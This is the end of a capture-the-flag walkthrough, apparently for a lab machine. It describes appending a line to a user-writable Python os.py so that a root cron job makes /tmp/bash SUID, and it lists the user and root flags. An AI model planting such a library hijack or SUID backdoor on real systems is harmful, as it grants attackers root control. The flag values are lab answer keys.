 It is not doing anything. But interestingly, the o module related file is writeable by the user

![Untitled](uploads/Untitled%2012.png)

So, I append the following line at the end of os.py file

```python
system('chown root:root /tmp/bash; chmod u+s /tmp/bash')
```

After Some time, cron executed the script and make the SUID bash file. Using that I got the root flag

![Untitled](uploads/Untitled%2013.png)

Root Flag - 591b7e7837e8a42b8375f2865bd2fc6a

## Flags

**user.txt -** 4d90ce9776ab831f5fe1b77a0a9b0649

**root.txt -** 591b7e7837e8a42b8375f2865bd2fc6a
